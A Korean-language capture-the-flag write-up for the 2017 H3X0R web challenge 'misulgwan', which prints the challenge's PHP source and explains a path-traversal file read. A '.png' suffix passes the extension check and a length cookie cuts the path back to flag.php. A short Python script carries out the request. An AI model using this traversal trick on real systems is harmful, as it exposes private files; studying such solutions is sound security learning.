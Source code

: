 ======================================================
[2017_H3X0R] [WEB] misulgwan
======================================================

문제 내용
======================================================

server 1: http://pphp.dothome.co.kr/

server 2:http://jellycleaner.dothome.co.kr/

server 3: http://39.120.34.116:12345/misulgwan/


문제 풀이
======================================================

해당 사이트에 접속해서 소스보기를 해보면 소스코드 제공 페이지가 존재한다.

.. code-block:: html

    <!--<a href='./view.php?view-source'>view source</a> -->

PHP 소스코드는 아래와 같다.

.. code-block:: php

    welcome to misulgwan. 
    <?php
    error_reporting(0);
    include 'flag.php'; # flag is in the flag.php

    if(isset($_GET['image'], $_COOKIE['length'])){
        $ext = explode(".", strrev($_GET['image']));
        $ext = strrev($ext[0]);
        if(!preg_match("/png|jpg|bmp/i", $ext)) exit("no hack");

        $image = substr($_GET['image'], 0, $_COOKIE['length']);
        $view = fopen("./image/".$image, 'rb');

        header("Content-Type: image/png");
        fpassthru($view);
    }
    else {
        echo "welcome to misulgwan.";
    }

    if(isset($_GET['view-source'])){
        highlight_file(__FILE__);
    }
    ?>

문제를 볼 때 항상 입력값과 출력값을 염두해두자. 입력값은 image 파라미터와 length 쿠키 값이고, 출력하고자하는 값은 flag.php 내용이다.
출력 값인 flag.php 파일 내용을 가져오기 위해서는, 조건문이 2개 맞아야 한다.

1. 파일명 뒤에 확장자가 png, jpg, bmp여야 한다.
2. 해당 파읾명을 읽을 때 전체 입력한 값을 가져오는게 아니라, length 쿠키 값까지만 읽어서 가져오므로 flag.php까지만 읽을 수 있도록 length 쿠키 값을 맞춰보내야 한다.


다음과 같은 python 코드를 통해 플래그를 획득한다.

.. code-block:: python

    import requests

    url = "http://pphp.dothome.co.kr/view.php?image=../flag.php.png"
    header = {
        "Cookie":"length=11"
    }
    r = requests.get(url,headers=header)
    print r.content


